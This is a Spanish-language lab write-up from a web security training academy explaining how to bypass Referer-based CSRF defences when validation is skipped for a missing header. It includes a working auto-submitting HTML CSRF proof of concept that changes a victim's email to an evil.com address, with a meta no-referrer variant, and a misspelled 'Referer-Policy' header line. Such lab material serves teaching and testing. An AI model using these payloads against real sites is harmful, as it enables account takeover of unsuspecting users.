






Aparte de las defensas que emplean tokens CSRF, algunas aplicaciones hacen uso de la cabecera HTTP Referer para intentar defenderse de los ataques CSRF, normalmente verificando que la petición se originó en el propio dominio de la aplicación. Este enfoque es generalmente menos eficaz y a menudo está sujeto a elusiones.

### Referer header
El encabezado HTTP Referer (que por error ortográfico aparece en la especificación HTTP) es un encabezado de petición opcional que contiene la URL de la página web que enlaza con el recurso que se está solicitando. Por lo general, los navegadores la añaden automáticamente cuando un usuario inicia una solicitud HTTP, por ejemplo, al hacer clic en un enlace o enviar un formulario. Existen varios métodos que permiten a la página que enlaza retener o modificar el valor de la cabecera Referer. Esto se hace a menudo por razones de privacidad.

### Validation of Referer depends on header being present

Algunas aplicaciones validan la cabecera Referer cuando está presente en las peticiones, pero omiten la validación si se omite la cabecera.

En esta situación, un atacante puede crear su exploit CSRF de forma que el navegador del usuario víctima omita la cabecera Referer en la petición resultante. Hay varias formas de conseguirlo, pero la más sencilla es utilizar una etiqueta META dentro de la página HTML que aloja el ataque CSRF:

```c
<meta name="referrer" content="never">
```

## LAB 



Al interceptara el trafico del sitio web encontraremos con el panel de login en donde tiene la cabecera de `referer` 



al quitarle o ingresar otra esta nos devuelve un `Invalid referer header` por lo que para poder explotar debemos tenerlo en cuenta.



Entendiendo lo anterior, procederemos a construir nuestro POC

```c
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a93009b035187de80ca123700ae0003.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener1&#64;evil&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Como se había mencionando, al probar el código malicioso el sitio web nos da un `Invalid referer header` que no nos deja enviar la solicitud correctamente.



### Primer método 

En el primero método es agregar `<meta name="referrer" content="never">` en nuestro código malicioso

```c
<html>
<meta name="referrer" content="never">
  <body>
    <form action="https://0a93009b035187de80ca123700ae0003.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener1&#64;evil&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### Segundo método

El otro método es agregar en las cabeceras  `Referer-Policy: no-referrer`

```c
Referer-Policy: no-referrer
```






